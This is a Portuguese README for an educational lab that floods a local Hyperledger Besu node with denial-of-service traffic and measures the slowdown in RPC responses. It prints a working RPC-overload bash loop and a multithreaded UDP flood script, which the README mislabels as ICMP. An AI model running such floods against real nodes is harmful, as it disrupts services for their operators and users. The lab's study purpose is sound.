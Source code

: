 # 🧠 Projeto de Simulação de Ataque DoS/DDoS em Hyperledger Besu

Este projeto tem como objetivo demonstrar de forma **controlada e educativa** como **ataques de negação de serviço (DoS e DDoS)** podem afetar o desempenho de uma **rede blockchain privada** baseada em **Hyperledger Besu**, observando especialmente o impacto no **tempo médio de resposta das chamadas RPC**.

> ⚠️ **Aviso:** Este projeto é exclusivamente para fins acadêmicos e laboratoriais. Não deve ser utilizado em ambientes de produção nem contra redes públicas.

---

## 🚀 Objetivos do Projeto

- Montar uma rede privada Hyperledger Besu (um nó simples ou uma pequena rede com 2-3 nós).
- Gerar tráfego excessivo para simular ataques:
  - **Ataque à camada de rede:** inundação de pacotes (DoS de rede).
  - **Ataque à camada de aplicação:** sobrecarga via requisições RPC simultâneas (DoS de aplicação).
- Medir o impacto:
  - Aumento no **tempo médio de resposta RPC**.
  - Queda no throughput e na disponibilidade do nó.

---

## ⚙️ Estrutura do Projeto

```

projeto-dos-besu/
│
├── docker-compose.yml       # Configuração do nó Hyperledger Besu
├── config/
│   ├── genesis.json          # Arquivo de configuração da blockchain privada
│   └── besu-config.toml      # Configurações personalizadas do Besu
│
├── scripts/
│   ├── flood_network.py         # Script simples de DoS de rede (ping flood)
│   ├── rpc_overload.sh         # Script para gerar carga RPC (camada de aplicação)
│   └── metrics_rpc.py        # Script para medir o tempo médio de resposta RPC
│
└── README.md

````

---

## 🧩 Pré-requisitos

- Docker e Docker Compose instalados.
- Python 3.10+ com bibliotecas `requests`, `time`, e `statistics`.
- Permissão de administrador para executar Docker (`sudo`).

---

## 🛠️ Como Executar o Projeto

### 1. Inicie o nó Hyperledger Besu

```bash
sudo docker compose up -d
````

Verifique os logs:

```bash
sudo docker logs -f besu-node
```

---

### 2. Teste a comunicação RPC

Com o nó rodando, teste a API RPC:

```bash
curl -X POST --data '{"jsonrpc":"2.0","method":"eth_blockNumber","params":[],"id":1}' http://localhost:8545
```

Se retornar um número de bloco, o nó está operacional ✅

---

### 3. Medir tempo médio de resposta RPC (sem ataque)

Execute:

```bash
python3 scripts/metrics_rpc.py
```

Saída esperada:

```
Tempo médio de resposta RPC: 0.045 segundos
```

---

### 4. Simular ataque DoS na camada de aplicação – Sobrecarga RPC

Abra outro terminal e rode:

```bash
bash scripts/rpc_overload.sh
```

Esse script envia centenas de requisições RPC simultâneas (`eth_blockNumber`).
🧠 Efeito esperado:
O nó Besu começa a responder mais lentamente e pode travar se o ataque persistir.

---

### 5. Simular ataque à camada de rede – Flooding P2P

Em outro terminal (ou container):

```bash
python3 scripts/flood_network.py
```

> Este script simula um ataque de inundação de pacotes na porta P2P (30303).
> 🧠 Efeito esperado:
A porta P2P do Besu será inundada, elevando uso de CPU e travando conexões de peers.

---

### 6. Medir impacto

Execute novamente o medidor de desempenho:

```bash
python3 scripts/metrics_rpc.py
```

Compare os tempos **antes** e **durante o ataque**.

Exemplo de resultado:

| Situação        | Tempo médio RPC (s) | Observação                    |
| --------------- | ------------------- | ----------------------------- |
| Normal          | 0.045               | Resposta estável              |
| Sob ataque RPC  | 0.487               | Aumento de 980%               |
| Sob ataque ICMP | 1.102               | Queda acentuada de desempenho |

---

## 📊 Scripts Importantes

### `metrics_rpc.py`

Mede o tempo médio de resposta de requisições RPC.

```python
import requests, time, statistics

url = "http://localhost:8545"
payload = {"jsonrpc": "2.0", "method": "eth_blockNumber", "params": [], "id": 1}

tempos = []
for _ in range(30):
    inicio = time.time()
    requests.post(url, json=payload)
    tempos.append(time.time() - inicio)

print(f"Tempo médio de resposta RPC: {statistics.mean(tempos):.3f} segundos")
```

---

### `rpc_overload.sh`

Simula ataque de sobrecarga RPC.

```bash
#!/bin/bash
for i in {1..1000}
do
  curl -s -X POST http://127.0.0.1:8545 \
  -H "Content-Type: application/json" \
  -d '{"jsonrpc":"2.0","method":"eth_getBlockByNumber","params":["latest", true],"id":1}' &
done
```

---

### `flood_network.py`

Ataque de inundação ICMP (rede).

```python
import socket
import threading

target_ip = "127.0.0.1"
target_port = 30303

def flood():
    client = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    data = b"A" * 1024
    while True:
        client.sendto(data, (target_ip, target_port))

for i in range(50):  # número de threads simulando bots
    threading.Thread(target=flood).start()
```

---

## 📚 Conceitos Envolvidos

* **Ataque DoS (Denial of Service):** saturação de recursos de um nó, impedindo o funcionamento normal.
* **Ataque DDoS (Distributed DoS):** múltiplas origens simultâneas causam sobrecarga massiva.
* **Camada de rede:** ataques baseados em pacotes (ICMP, TCP SYN Flood).
* **Camada de aplicação:** ataques via APIs ou RPCs sobrecarregando o processamento.

---

## 🧠 Conclusão

Esse projeto demonstra, de forma simples, como a **resiliência e desempenho** de uma rede **Hyperledger Besu** podem ser comprometidos sob ataques de negação de serviço.
Os resultados podem ser usados para planejar **mitigações** (como firewalls, rate limiting e load balancing).

---

## 👨‍💻 Autor

**João Filho**
Residente em Cibersegurança – PUCPR
Foco: GRC, Blockchain e Segurança Cibernética
📧 contato: [joaofilho1467@gmail.com](mailto:joaofilho1467@gmail.com)